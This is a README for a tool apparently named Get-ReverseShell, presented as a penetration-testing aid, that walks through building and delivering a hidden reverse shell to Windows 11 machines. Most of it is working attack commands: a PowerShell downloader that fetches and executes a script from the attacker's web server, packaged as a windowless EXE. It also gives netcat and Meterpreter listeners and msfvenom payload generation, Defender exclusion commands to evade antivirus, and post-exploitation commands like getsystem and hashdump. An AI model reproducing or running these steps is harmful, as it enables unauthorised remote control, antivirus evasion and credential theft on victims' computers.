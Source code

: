 ### Get-ReverseShell README

This repository provides a tool to facilitate the creation and deployment of a sneaky reverse shell on Windows 11 targets, enhancing your penetration testing capabilities. This tool allows you to establish a connection between your Kali Linux machine and the target system, providing a powerful means for further exploration.

## Prerequisites

Before using this tool, ensure that you have the following:

1. **Kali Linux:** Make sure you have Kali Linux installed, along with `msfconsole`, `msfvenom` and any web-server.
2. **Windows 11:** You need a Windows 11 machine to create an executable file from PowerShell scripts (EXE). Wine may be an option, but it's not officially supported.
3. **Target Windows 11:** The machine you intend to target.

## Configuration Variables

These variables can be adjusted according to your environment. Use Ctrl + F to locate and modify them easily.

```variables
$lhost = "192.168.0.2"                        # IP address of your Kali host
$lport = 4444                                 # Listening port on your Kali
$lport_sneaky = 5555                          # Sneaky listening port on your Kali
$lwebpath = "/var/www/html/"                  # Path to the open website on your Kali
$lwinpath = "C:\Users\w\"                     # Working path on the Windows 11 target
$lpath = "/home/k/Desktop/"                   # Path to a local directory on your Kali
$rpath = "C:\Users\w\Desktop\"                # Working path on the attacking host
$ps_name = "reverse_shell.ps1"                # Name of your Meterpreter reverse shell PowerShell file
$exe_name = "reverse_shell.exe"               # Name of your attacking sneaky reverse shell executable file
$sneaky_exename = "sneaky_reverse_shell.exe"  # Name of your attacking sneaky reverse shell sneaky executable file
$sneaky_psname = "sneaky_reverse_shell.ps1"   # Name of your sneaky reverse shell sneaky PowerShell file
```

## Usage

# Kali Linux
1. Press **Ctrl + Alt + t** for open a first Kali Linux terminal and execute **sudo su** and this following commands:

```bash
cd $lpath
git clone https://github.com/gh0x0st/Get-ReverseShell
cd ./Get-ReverseShell
```
2. Write **pwsh** for open a PowerShell terminal and execute the following commands for create sneaky reverse shell script:
```pwsh
Import-Module ./get-reverseshell.ps1
get-reverseshell -Ip $lhost -Port $lport_sneaky
```

3. Write your sneaky reverse shell script in the file `$lpath/$sneaky_psname` after line ">> https://github.com/gh0x0st".

4. Write **exit** and continue in first Kali Linux terminal with the following commands:

```bash
exit
cp $sneaky_psname $lwebpath
nc -nvlp 5555
```

# Windows 11
1. Open a Windows 11 PowerShell with administrator privileges and run the following commands:

```powershell
Set-ExecutionPolicy Bypass
Install-PackageProvider -Name NuGet -MinimumVersion 2.8.5.201 -Force -Confirm:$false -ErrorAction SilentlyContinue
Install-Module -Name ps2exe -Force -Confirm:$false -ErrorAction SilentlyContinue
@"
# PowerShell script for downloading and executing the sneaky reverse shell
`$scriptUrl = "http://$lhost/$sneaky_psname"
`$scriptBytes = Invoke-WebRequest -Uri `$scriptUrl -UseBasicParsing -Method Get -MaximumRedirection 0
`$scriptContent = [System.Text.Encoding]::UTF8.GetString(`$scriptBytes.Content)
Invoke-Expression -Command `$scriptContent
"@ | Out-File -FilePath "$lwinpath$sneaky_psname" -Encoding UTF8
Invoke-ps2exe $lwinpath$sneaky_psname $lwinpath$sneaky_exename -noconsole -noerror -nooutput -sta -x64
```

2. Send and execute the sneaky backdoor on the target machine with administrator privileges.

# Return to the Kali Linux

6. Return to the Kali terminal and check for a successful connection. You should see somesthing like that:

```bash
┌──(root㉿kali)-[/home/k/Desktop]
└─# nc -nvlp 5555
listening on [any] 5555 ...
connect to [192.168.0.2] from (UNKNOWN) [192.168.0.20] 62074
                                                                                                                                                                                                                                            
PS C:\Users\w\Desktop>
```

7. If successful, you can proceed with further commands in the sneaky reverse shell for allow Meterpreter Reverse Shell and expand backdoor.
```powershell
Set-ExecutionPolicy Bypass
Add-MpPreference -ExclusionProcess "cmd.exe"
Add-MpPreference -ThreatIDDefaultAction_Ids @(2147735445) -ThreatIDDefaultAction_Actions @('Allow')
Add-MpPreference -ExclusionExtension @("exe", "dll", "ps1", "vbs")
Add-MpPreference -ExclusionPath '$rpath$sneaky_exename'
Add-MpPreference -ExclusionProcess "$sneaky_exename"
```


8. Checkout Windows Defender rules via this command
```powershell
Get-MpPreference
```

## Meterpreter Reverse Shell

To use Meterpreter for enhanced functionality:

1. Open a new Kali terminal and execute the following commands:

```bash
sudo su
msfvenom -p windows/x64/meterpreter/reverse_tcp --format psh -o $lpath$ps_name lhost=$lhost lport=$lport
```

2. Create an EXE file for running without a shell in the target:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp --format exe -o $lpath$exe_name lhost=$lhost lport=$lport
```

3. Use the provided PowerShell script for pasting in the original Kali shell:

```bash
pwsh
./ps2tcps.ps1 -inputFilePath $lpath$ps_name -outputFilePath $lpathnew$ps_name -newPath "$rpath$ps_name"
cat $lpathnew$ps_name
```

4. Open a new Kali terminal and execute the following commands:

```bash
sudo su
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.0.2
set lport
exploit
```

5. Return to the original Kali shell and paste the content of your Meterpreter script on the target:

```powershell
Add-Content -Path $rpath$ps_name -Value 'line1'
Add-Content -Path $rpath$ps_name -Value 'line2'
Add-Content -Path $rpath$ps_name -Value 'line3'
Add-Content -Path $rpath$ps_name -Value 'line4'
...
Add-MpPreference -ExclusionPath '$rpath$ps_name'
Add-MpPreference -ExclusionPath '$rpath$exe_name'
```

6. If successful, you will see a Meterpreter session opened in the msfconsole. Congratulations, you have a full reverse shell on your target.

## Example Commands

Here are some example commands you can use in the Meterpreter shell:

- `getuid`: Get the user ID of the current user.
- `getsystem`: Attempt to gain system privileges.
- `hashdump`: Retrieve hashes of all users on the target.
- `background`: Move the current session to the background.
- `help`: Display a list of available commands and their descriptions.

Feel free to explore and experiment with additional Meterpreter commands for a comprehensive assessment. Happy hacking!
